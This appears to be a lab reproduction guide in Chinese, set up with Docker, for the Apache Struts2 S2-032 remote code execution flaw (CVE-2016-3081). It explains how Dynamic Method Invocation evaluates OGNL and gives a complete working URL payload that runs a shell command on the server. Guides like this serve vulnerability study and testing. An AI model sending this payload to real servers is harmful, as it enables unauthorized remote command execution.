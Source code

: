 # S2-032 远程代码执行漏洞（CVE-2016-3081）

影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

漏洞详情: 

 - https://cwiki.apache.org/confluence/display/WW/S2-032
 - https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞环境

执行如下命令启动struts2 2.3.28：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认页面。

## 漏洞复现

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

直接请求如下URL，即可执行`id`命令：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![](1.png)